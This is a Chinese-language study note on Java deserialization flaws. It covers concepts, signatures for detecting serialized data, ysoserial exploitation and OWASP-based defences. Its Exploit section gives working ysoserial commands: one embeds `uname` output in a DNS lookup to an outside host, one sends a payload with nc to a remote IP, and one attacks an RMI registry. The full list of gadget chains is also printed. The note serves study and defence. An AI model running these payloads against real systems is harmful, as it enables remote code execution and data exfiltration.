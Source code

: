 ### 基础 - Java 序列化与反序列化

* Serialization
  * 概念：序列化 是把"Java Object"转换为 二进制字节序列 的过程
  * 实现：ObjectOutputStream类的 writeObject() 方法
* Deserialization
  * 概念：反序列化 是把 二进制字节序列 恢复为 "Java Object" 的过程
  * 实现：ObjectInputStream 类的 readObject() 方法

* 同义词
  * Serialization / Deserialization
  * Marshaling / Unmarshaling
  * Pickling / Unpickling


### 检测

* 黑盒
  * `AC ED 00 05` in Hex  (`aced0005`是序列化对象二进制流数据的开头 常见于TCP流量)
  * `rO0` in Base64 常见于HTTP流量
  * `Content-type: application/x-java-serialized-object`常见于HTTP流量
  * `H4sIAAAAAAAAAJ` in gzip(base64) 常见于HTTP流量

* 白盒
  * 关注 实现了`Serializable`接口的类
  * 关注 override(重写/覆盖)了`readObject`的函数
  
### Exploit

* 生成payloads(exploit unsafe Java object deserialization.)
  * https://github.com/frohoff/ysoserial

```
# 1
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
$ java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64
$ java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64

# 2
$ java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > ping_Groovy1_payload.bin
$ nc 10.10.10.10 1099 < ping_Groovy1_payload.bin

# 3
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```



```
java -jar ysoserial-master-30099844c6-1.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
七月 01, 2020 11:08:15 上午 org.reflections.Reflections scan
信息: Reflections took 232 ms to scan 1 urls, producing 18 keys and 146 values
     Payload             Authors                                Dependencies
     -------             -------                                ------------
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                               commons-collections:3.1
     CommonsCollections2 @frohoff                               commons-collections4:4.0
     CommonsCollections3 @frohoff                               commons-collections:3.1
     CommonsCollections4 @frohoff                               commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                               groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser                       js:1.7R2
     MozillaRhino2       @_tint0                                js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                              rome:1.0
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```



### 防御

* 原生反序列化防御
  * 避免用户输入可控 - 不要反序列化不可信的数据
  * 认证 - 给反序列数据加密签名且解密需在反序列之前
  * 认证 - 经过认证授权 才能使用反序列化接口
  * 限制访问源 - 反序列化服务只允许监听在本地

* 参考
  * [CheatSheetSeries/Deserialization_Cheat_Sheet.md](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Deserialization_Cheat_Sheet.md)
  * https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
